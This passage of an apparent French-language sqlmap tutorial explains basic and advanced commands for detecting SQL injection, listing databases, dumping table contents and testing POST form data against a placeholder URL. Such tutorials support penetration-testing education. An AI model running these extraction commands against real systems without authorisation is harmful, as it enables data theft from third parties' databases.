 ***

### 🛠️ Étape 2 : Commandes de Base

***

#### 1. Tester une URL pour les Injections SQL

**Commande :**

```bash
sqlmap -u "http://example.com/page.php?id=1"
```

* **Explication** :
  * `-u` : Spécifie l'URL cible avec le paramètre à tester.
  * Sqlmap détectera automatiquement les vulnérabilités d'injection SQL sur le paramètre spécifié.

***

#### 2. Détecter les Bases de Données

**Commande :**

```bash
sqlmap -u "http://example.com/page.php?id=1" --dbs
```

* **Explication** :
  * `--dbs` : Liste toutes les bases de données disponibles après avoir détecté une vulnérabilité.

***

#### 3. Extraire des Tables et Données

**Commande :**

```bash
sqlmap -u "http://example.com/page.php?id=1" --dbs --tables -D <database_name> -T <table_name> --dump
```

* **Explication** :
  * `--tables` : Liste les tables dans la base de données spécifiée (`-D <database_name>`).
  * `--dump` : Extrait toutes les données de la table spécifiée (`-T <table_name>`).

***

### 🔍 Étape 3 : Commandes Avancées

***

#### 1. Tester avec des Données POST

Si la cible utilise des requêtes POST (formulaires ou API) :

```bash
sqlmap -u "http://example.com/page.php" --data="username=admin&password=1234"
```
